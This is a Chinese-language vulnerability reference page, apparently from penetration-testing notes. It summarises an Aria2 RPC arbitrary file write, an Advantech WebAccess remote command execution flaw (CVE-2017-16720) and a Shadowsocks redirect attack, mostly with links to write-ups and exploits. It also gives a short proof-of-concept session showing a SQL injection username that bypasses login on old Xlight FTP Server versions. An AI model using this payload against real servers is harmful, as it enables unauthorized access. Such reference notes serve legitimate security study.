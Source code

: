     Aria2 是一个命令行下轻量级、多协议、多来源的下载工具 (支持 HTTP/HTTPS、FTP、BitTorrent、Metalink) ,内建 XML-RPC 和 JSON-RPC 接口.在有权限的情况下,我们可以使用 RPC 接口来操作 aria2 来下载文件,将文件下载至任意目录,造成一个任意文件写入漏洞.

- 文章
    - [Aria2 任意文件写入漏洞](https://github.com/vulhub/vulhub/blob/master/aria2/rce/README.zh-cn.md)

---

## WebAccess

研华 WebAccess 软件是研华物联网应用平台解决方案的核心，为用户提供一个基于 HTML5 技术用户界面，实现跨平台、跨浏览器的数据访问体验。使用 WebAccess 后，用户可以建立一个信息管理平台，同步提高垂直市场管理发展的效率。

**CVE-2017-16720 Advantech WebAccess远程命令执行**
- 简介

    此漏洞允许攻击者使用 RPC 协议通过 TCP 端口 4592 执行远程命令。

    通过利用恶意分布式计算环境/远程过程调用（DCERPC），webvrpcs.exe 服务将命令行指令传递给主机， webvrpcs.exe 服务以管理员访问权限运行。版本小于 8.3、8.3.1、8.3.2 仍然存在特定的安全漏洞。

- 相关文章
    - [漏洞实验：CVE-2017-16720 Advantech WebAccess远程命令执行](https://www.key1.top/index.php/archives/492/)

- POC | Payload | exp
    - [Advantech WebAccess < 8.3 - Directory Traversal / Remote Code Execution](https://www.exploit-db.com/exploits/44278)

---

## Shadowsocks

**对 Shadowsocks stream ciphers 的重定向攻击**
- https://github.com/edwardz246003/shadowsocks

---

# 文件服务
## FTP

**Xlight FTP Server < 3.2.1 user 参数 SQL 注入漏洞**
- 简介

    在执行 ODBC 认证过程中 Xlight FTP Server 没有正确地过滤用户所提交的用户名和口令字段,远程攻击者可以用"OR ‘1’=’1’ ;#"替换用户名绕过认证登录到服务器.

- POC | Payload | exp
    ```bash
    220 Xlight FTP Server 3.2 ready...
    User (server-4:(none)) : \' OR \'1\'=\'1\' ;#
    331 Password required for \' OR \'1\'=\'1\' ;#
    Password : type anything
    230 Login OK
    ftp&gt;
    ```
